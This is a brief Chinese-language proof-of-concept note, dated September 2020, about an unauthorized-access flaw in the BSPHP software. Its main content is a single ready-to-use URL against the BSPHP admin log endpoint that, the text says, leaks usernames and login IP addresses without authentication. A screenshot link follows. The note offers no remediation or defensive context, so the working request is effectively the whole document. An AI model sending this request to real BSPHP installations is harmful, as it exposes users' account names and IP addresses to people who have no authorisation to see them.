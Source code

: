 # BSPHP存在未授权访问

> 2020.9

## #Poc

泄漏用户名和登陆ip

```
http://x.x.x.x/admin/index.php?m=admin&c=log&a=table_json&json=get&soso_ok=1&t=user_login_log&page=1&limit=10&bsphptime=1600407394176&soso_id=1&soso=&DESC=0
```

![image.png](https://tva1.sinaimg.cn/large/007S8ZIlgy1gjxy7g3qc8j30u00v60we.jpg)